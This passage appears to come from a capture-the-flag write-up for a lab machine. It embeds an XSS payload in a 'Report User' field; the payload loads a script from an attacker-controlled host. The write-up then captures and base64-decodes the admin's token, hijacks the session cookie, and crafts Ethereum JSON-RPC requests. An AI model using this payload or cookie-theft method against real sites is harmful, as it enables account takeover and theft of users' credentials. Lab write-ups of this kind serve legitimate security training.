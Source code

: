 We embed the following XSS payload in the "Report User" field:

```html
<img src="x" onerror="var script=document.createElement('script');script.src='http://10.10.14.8:2000/shat.js';document.head.appendChild(script);">
```

When the admin processes the report, a request containing sensitive information is sent to our server. The intercepted request looks like this:

```
GET /log?log=eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5SmhiR2NpT2lKSVV6STFOaUlz...
```

### Decoding the Admin Token

We extract the Base64-encoded payload and decode it:

```bash
echo "eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5..." | base64 -d
```

Output:

```json
{"role":"admin","token":"<JWT_TOKEN>","username":"admin"}
```

We modify the session cookie with the extracted admin token, gaining access to admin-only features.

---

## Blockchain Interaction

### Intercepting Requests

Using Burp Suite, we intercept API requests made by the admin panel. We identify the following JSON-RPC call:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_getBalance",
  "params": ["0x38D681F08C24b3F6A945886Ad3F98f856cc6F2f8", "latest"],
  "id": 1
}
```

To gather additional information, we craft a new request to fetch a block by number:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_getBlockByNumber",
  "params": [
    "0x10d4f",
    true
  ],
  "id": 1
}
```
